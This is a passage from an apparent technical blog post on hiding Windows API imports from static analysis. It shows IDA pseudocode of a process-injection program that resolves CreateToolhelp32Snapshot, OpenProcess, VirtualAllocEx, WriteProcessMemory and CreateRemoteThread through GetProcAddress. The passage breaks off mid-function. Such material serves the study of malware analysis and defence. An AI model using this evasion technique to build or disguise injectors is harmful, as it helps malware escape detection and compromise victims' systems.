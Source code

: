 Though with that, we can see the two new APIs that were used to hide them, `GetProcAddress` and `LoadLibraryA`. We could do further work and hide these two APIs by walking the PEB and calculating the absolute address for these functions but that is not in the scope of this article. This process is outlined in the shellcoding a reverse shell writeup in C post on my blog.

Furthermore, the pseudocode that’s generated by IDA looks similar where we can see the allocation/resolving of WinAPI functions and calling them:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  HMODULE hModule; // [rsp+48h] [rbp-1C0h]
  __int64 v5; // [rsp+50h] [rbp-1B8h]
  __int64 v6; // [rsp+58h] [rbp-1B0h]
  HANDLE hObject; // [rsp+60h] [rbp-1A8h]
  int v8; // [rsp+68h] [rbp-1A0h]
  int v9; // [rsp+6Ch] [rbp-19Ch] BYREF
  __int64 v10; // [rsp+70h] [rbp-198h]
  HANDLE (__stdcall *CreateToolhelp32Snapshot)(DWORD, DWORD); // [rsp+78h] [rbp-190h]
  BOOL (__stdcall *Process32First)(HANDLE, LPPROCESSENTRY32); // [rsp+80h] [rbp-188h]
  HANDLE (__stdcall *OpenProcess)(DWORD, BOOL, DWORD); // [rsp+88h] [rbp-180h]
  BOOL (__stdcall *Process32Next)(HANDLE, LPPROCESSENTRY32); // [rsp+90h] [rbp-178h]
  LPVOID (__stdcall *VirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD); // [rsp+98h] [rbp-170h]
  BOOL (__stdcall *WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T *); // [rsp+A0h] [rbp-168h]
  BOOL (__stdcall *VirtualProtectEx)(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD); // [rsp+A8h] [rbp-160h]
  HANDLE (__stdcall *CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD); // [rsp+B0h] [rbp-158h]
  __int64 v19; // [rsp+B8h] [rbp-150h]
  int v20; // [rsp+C0h] [rbp-148h] BYREF
  unsigned int v21; // [rsp+C8h] [rbp-140h]

  if ( argc < 2 )
    return 1;
  v5 = 0LL;
  v8 = unknown_libname_19(argv[1], argv, envp);
  hModule = LoadLibraryA(LibFileName);
  if ( !hModule )
    return 1;
  CreateToolhelp32Snapshot = (HANDLE (__stdcall *)(DWORD, DWORD))GetProcAddress(hModule, ProcName);
  if ( !CreateToolhelp32Snapshot )
    return 1;
  hObject = (HANDLE)((__int64 (__fastcall *)(__int64, _QWORD))CreateToolhelp32Snapshot)(2LL, 0LL);
  if ( !hObject )
    return 1;
  v20 = 304;
  Process32First = (BOOL (__stdcall *)(HANDLE, LPPROCESSENTRY32))GetProcAddress(hModule, aProcess32first);
  if ( !Process32First )
    return 1;
  ((void (__fastcall *)(HANDLE, int *))Process32First)(hObject, &v20);
  Process32Next = (BOOL (__stdcall *)(HANDLE, LPPROCESSENTRY32))GetProcAddress(hModule, aProcess32next);
  if ( !Process32Next )
    return 1;
  while ( v8 != v21 )
  {
    if ( !((unsigned int (__fastcall *)(HANDLE, int *))Process32Next)(hObject, &v20) )
      goto LABEL_18;
  }
  OpenProcess = (HANDLE (__stdcall *)(DWORD, BOOL, DWORD))GetProcAddress(hModule, aOpenprocess);
  if ( !OpenProcess )
    return 1;
  v5 = ((__int64 (__fastcall *)(__int64, __int64, _QWORD))OpenProcess)(0x1FFFFFLL, 1LL, v21);
```